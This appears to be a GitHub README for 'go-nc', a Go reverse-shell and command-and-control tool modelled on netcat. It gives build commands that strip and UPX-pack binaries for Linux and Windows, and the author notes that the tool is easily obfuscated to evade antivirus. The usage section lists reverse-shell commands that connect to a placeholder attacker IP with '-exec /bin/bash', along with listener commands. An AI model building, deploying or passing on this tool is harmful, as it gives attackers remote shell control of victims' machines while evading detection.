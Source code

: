 # go-nc
Simple Command & Control for revshells in pure Go (Like a Netcat).

# Archived
Migrated to https://gitlab.com/vay3t/go-nc

# Why?
The project is based on two repositories, which I unify and modify according to the use that is given to hacking. The idea of this project is to quickly and easily compile a multipurpose binary for different platforms and architectures. The advantage of this project is that it is easily obfuscable to evade antivirus, example: https://twitter.com/vay3t/status/1415547032719273984

Note: I asked the gonc project owner to include the -exec functionality to his project. As I am a bit impatient, I ended up doing it my way and it managed to remain functional.

Project based on:
* https://github.com/LukeDSchenk/go-backdoors
* https://github.com/dddpaul/gonc/


# Build

### For Linux
```bash
git clone https://github.com/vay3t/go-nc
cd go-nc
go build -ldflags "-s -w" go-nc.go
upx go-nc
```

```
-rwxr-xr-x 1 vay3t vay3t 685K Jul 15 00:21 go-nc
```

### For Windows
```bash
git clone https://github.com/vay3t/go-nc
cd go-nc
GOOS=windows GOARCH=amd64 go build -ldflags "-s -w" go-nc.go
upx go-nc.exe
```

```
-rwxr-xr-x 1 vay3t vay3t 825K Jul 15 00:30 go-nc.exe
```

# Usage

## Help
```
Usage of ./go-nc:
  -exec string
        command to execute
  -host string
        host to connect to
  -listen
        listen for incoming connections
  -port int
        port to connect to (default 4444)
  -proto string
        protocol to use (default "tcp")
```

## Examples

### Client

* Connect to attacker in port 4444/TCP with shell

```bash
./go-nc -host <IP ATTACKER> -exec /bin/bash
```

* Connect to attacker in port 5353/UDP with shell

```bash
./go-nc -host <IP ATTACKER> -port 5353 -proto udp -exec /bin/bash
```

* Connect to attacker in port 4444/TCP without shell

```bash
./go-nc -host <IP ATTACKER>
```

* Connect to attacker in port 5353/UDP without shell

```bash
./go-nc -host <IP ATTACKER> -port 5353 -proto udp
```

### Server

* Open port 4444/TCP in Listen mode

```bash
./go-nc -listen
```

* Open port 5353/UDP in Listen mode

```bash
./go-nc -listen -port 5353 -proto udp
```
